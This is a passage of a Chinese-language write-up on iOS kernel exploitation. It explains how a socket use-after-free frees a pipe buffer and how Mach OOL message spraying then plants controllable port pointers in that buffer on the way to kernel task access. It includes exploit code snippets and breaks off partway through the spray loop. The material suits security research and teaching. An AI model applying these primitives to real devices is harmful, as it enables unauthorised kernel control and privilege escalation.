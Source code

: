 # Pipe Buffer UAF
我们的最终目的是控制一个 port，因此需要系统将 port 分配到我们的可控区域，即 pipe buffer 中，这样我们就能对其进行完全控制。这里我们将利用 Socket UAF 释放 Pipe Buffer，再利用 Mach OOL Message Spraying 将有效的 port 填充过来。

## Socket UAF Free Primitive
在前序文章中我们讲了利用 Socket UAF 实现的 Kernel Read，其实它还可以实现任意内核 Zone 的释放逻辑，这里的利用方式与之前提到的 Kernel Read 基本相同，也是把待处理的地址存储到 `fake options` 中的 `ip6po_pktinfo` 字段。区别在于 Spraying 成功后，我们不读取内容，而是给 `ip6po_pktinfo` 写一个全 0 的结构，这会导致 `ip6po_pktinfo` 指向的内容被释放。

按照常规的理解，释放 `ip6po_pktinfo` 指向的区域时，释放的区域长度应当以 `ip6po_pktinfo` 长度为准，但由内核中的代码得知这里使用了 FREE 函数，自动根据 zone 头部的 size 决定释放的长度，即以 `ip6po_pktinfo` 指向的区域为准，这就导致了一个任意长度区域释放的 Primitive，内核中的关键代码如下：
```c
void ip6_clearpktopts(struct ip6_pktopts *pktopt, int optname) {
    if (pktopt == NULL)
    	return;
    
    if (optname == -1 || optname == IPV6_PKTINFO) {
    	if (pktopt->ip6po_pktinfo)
    		FREE(pktopt->ip6po_pktinfo, M_IP6OPT); // <-- free
    	pktopt->ip6po_pktinfo = NULL;
    }
    // ...
```

它是对 `kfree_addr` 的封装，而 `kfree_addr` 中有基于地址获取到 zone 及 size 的逻辑：
```c
vm_size_t kfree_addr(void *addr) {
    vm_map_t map;
    vm_size_t size = 0;
    kern_return_t ret;
    zone_t z;
    
    size = zone_element_size(addr, &z); //
    if (size) {
    	DTRACE_VM3(kfree, vm_size_t, -1, vm_size_t, z->elem_size, void*, addr);
    	zfree(z, addr);
    	return size;
    }
    // ...
```

## Free the Pipe Buffer
利用上面的 Primitive，我们能够轻易地释放 Pipe Buffer：
```c
// free the first pipe buffer
ret = free_via_uaf(pipe_buffer);
```
此时我们已经达成了 Pipe Buffer UAF。

# Mach OOL Message Spraying
为了获得合法、可控的 `ipc_port`，我们使用 Mach OOL Message 进行 Heap Spraying，这里注意记录下 `remote port`，因为后续我们需要接收消息拿到被我们替换 port 的句柄：
```c
// create a new port, this one we'll use for tfp0
mach_port_t target = new_port();
// reallocate it while filling it with a mach message containing send rights to our target port
mach_port_t p = MACH_PORT_NULL;
for (int i = 0; i < 10000; i++) {
    // pipe is 0x10000 bytes so make 0x10000/8 pointers and save result as we'll use later
    p = fill_kalloc_with_port_pointer(target, 0x10000/8, MACH_MSG_TYPE_COPY_SEND);
    
    // check if spraying worked by reading first 8 bytes
```